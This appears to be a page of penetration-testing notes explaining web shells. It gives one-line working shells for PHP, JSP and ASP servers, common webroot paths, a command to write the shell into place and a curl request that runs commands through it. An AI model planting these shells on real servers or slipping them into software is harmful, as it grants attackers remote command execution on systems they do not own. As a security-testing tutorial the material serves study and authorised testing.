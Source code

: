 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Web Shell

A **Web Shell** is a technique where we upload a script written on the programming language a website is based on, that lets the app accept commands through HTTP request parameters, and pass them to the server's system to be executed by the internal shell.

This process can be done when we have access to the target's root web directory and we can upload a script to be executed through the web browser.

## <mark style="color:orange;">Basic script</mark>

* Create a script that processes the parameter from the request for the corresponding web language

{% code title="WebShell.php" overflow="wrap" lineNumbers="true" %}
```bash
<?php system($_REQUEST["cmd"]); ?> #PHP server
```
{% endcode %}

{% code title="WebShell.jsp" overflow="wrap" lineNumbers="true" %}
```bash
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %> #Java JSP server
```
{% endcode %}

{% code title="WebShell.asp" overflow="wrap" lineNumbers="true" %}
```bash
<% eval request("cmd") %> #Microsoft .Net server
```
{% endcode %}

* Then upload the script to the webroot directory of the server on the target machine. Some directories for well-known servers are:
  * _/var/www/html/_ for Apache
  * _/usr/local/nginx/html/_ for Nginx
  * _C:\inetpub\wwwroot_ for IIS
  * _C:\xampp\htdocs\\_ for XAMPP

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat $webshellscript > $webroot/$webshellscript
```
{% endcode %}

* Access to the Web Shell by sending a request with the URL parameter defined on the script to send a command as value to execute it

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl http://$IP:$port/shell.php?cmd=$command
```
{% endcode %}
